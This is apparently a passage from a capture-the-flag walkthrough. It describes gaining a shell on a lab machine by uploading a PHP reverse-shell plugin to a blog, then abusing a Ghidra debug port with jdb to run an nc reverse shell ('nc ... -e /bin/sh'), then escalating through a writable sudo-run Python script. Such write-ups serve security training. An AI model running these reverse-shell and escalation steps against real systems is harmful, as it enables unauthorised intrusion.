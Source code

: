 ```

![Image](https://miro.medium.com/max/700/1*b3s7CzVmqI5mMXpuQt9pfw.png)

I actually use the plugins way to get a reverse shell a simple bash reverse shell in Php and zip it to be able to upload it on the plugins page.

![Image](https://miro.medium.com/max/700/1*5P5H-qBo6KnhZLaaLch8YQ.png)

Click on install now and go to your terminal to start a ncat listener go back to the blog and click on activate boom you should have a reverse shell.

![Image](https://miro.medium.com/max/700/1*DIm8MnzBlr6ETi7bMNGFnA.png)

Let change directory to home to get the user.txt flag.

![Image](https://miro.medium.com/max/700/1*Nw8muez7u0AqeS1nsK0TlA.png)

Permission denied and we are www-data we need to find way to migrate to another user maybe Veronica when enumerating to get a password for Veronica or a way to get another reverse shell i find some interesting exploit for ghidra_9.0 (Debug Mode).

![Image](https://miro.medium.com/max/700/1*WciUIAqFGYb2XcAP7ocJOA.png)

Since we know port 18001 is running on localhost let type the command ```jdb -attach 127.0.0.1:18001``` now type ```classpath``` after that type ```classes```

![Image](https://miro.medium.com/max/700/1*Zlf5HBSYmMB1zrfesH9cGA.png)

Now type in ```stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()```

![Image](https://miro.medium.com/max/700/1*lLJR0zPa1MTB28hUkP3nDw.png)

Wait and you should get a way to spawn a reverse shell.

![Image](https://miro.medium.com/max/700/1*tm0NlRkQTfpFCArwKRL0Eg.png)

Now type in ```print new java.lang.Runtime().exec(“nc 10.8.0.0.0 1337-e /bin/sh”)``` make sure you a ncat listener and change the IP and port.

![Image](https://miro.medium.com/max/700/1*LSUxBrAeto6B7jPzll9tFg.png)

Boom let get the User.txt flag now.

![Image](https://miro.medium.com/max/700/1*rNWt2dHIFyVgEynisfMdFA.png)

Now we have User.txt let get root flag.

![Image](https://miro.medium.com/max/700/1*AkgcygQCfEOxYhpFtcth1w.png)

Cool we can run sudo on ```/usr/bin/python3.5 /home/veronica/base.py``` hahahaha let cat the base.py.

![Image](https://miro.medium.com/max/700/1*j3KH5m4H2YUlmRtpwmmuhA.png)

WTF! permission denied ok let try another trick let try to remove ```/home/veronica/base.py``` with ```rm -rf /home/veronica/base.py```.

![Image](https://miro.medium.com/max/700/1*89c26pGcxr9BcCRXXyEMZg.png)

Boom it work let try to create it back with some python shell in it.

![Image](https://miro.medium.com/max/700/1*TpxqPAY90MSJcWvcqr0Drg.png)

```